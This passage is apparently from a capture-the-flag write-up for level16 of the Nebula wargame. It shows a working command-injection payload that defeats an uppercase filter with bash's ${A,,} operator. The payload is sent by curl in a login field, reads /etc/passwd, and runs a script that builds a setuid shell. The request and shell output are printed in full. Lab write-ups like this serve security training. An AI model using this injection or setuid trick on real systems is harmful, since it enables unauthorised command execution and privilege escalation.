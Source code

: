Similarly to the other command injections, I replicated the filters so that I could print the output and see how I could manipulate them. The biggest problem being the fact that everything was converted to uppercase. Thankfully, that got sorted really quickly when I learnt of the `${A,,}` operator in bash. After quite a bit of trying different things, I finally got something that would work. I would first make the egrep happy by redirecting something to it to grep through. Once that was done, I declared a new variable `A` and set the command I wanted to run to it. Thereafter I converted it to lowercase and executed it wit `${A,,}` and commented the rest of the line out with a hash (#).

So, to solve level16:

```bash
level16@nebula:~$ vim /var/tmp/flag16.sh
level16@nebula:~$ chmod +x /var/tmp/flag16.sh
level16@nebula:~$ cat /var/tmp/flag16.sh
#!/bin/sh
gcc /var/tmp/shell.c -o /var/tmp/flag16
chmod 4777 /var/tmp/flag16
```

On my host machine, I requested the web page hosting the perl script, triggering `/var/tmp/flag16` to run:

```bash
~ » curl -v "http://192.168.217.239:1616/index.cgi?$(python -c 'import urllib; print urllib.urlencode({ "username" : """"</etc/passwd;A="/var/tmp/flag16.sh";${A,,};#""", "password" : "a" })')"
* Hostname was NOT found in DNS cache
*   Trying 192.168.217.239...
* Connected to 192.168.217.239 (192.168.217.239) port 1616 (#0)
> GET /index.cgi?username=%22%3C%2Fetc%2Fpasswd%3BA%3D%22%2Fvar%2Ftmp%2Fflag16.sh%22%3B%24%7BA%2C%2C%7D%3B%23&password=a HTTP/1.1
> User-Agent: curl/7.37.1
> Host: 192.168.217.239:1616
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-type: text/html
<
<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
* Closing connection 0
```

And then, just to read the flag:

```bash
level16@nebula:~$ /var/tmp/flag16
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## level17

[Level17's Description](https://exploit-exercises.com/nebula/level17/):
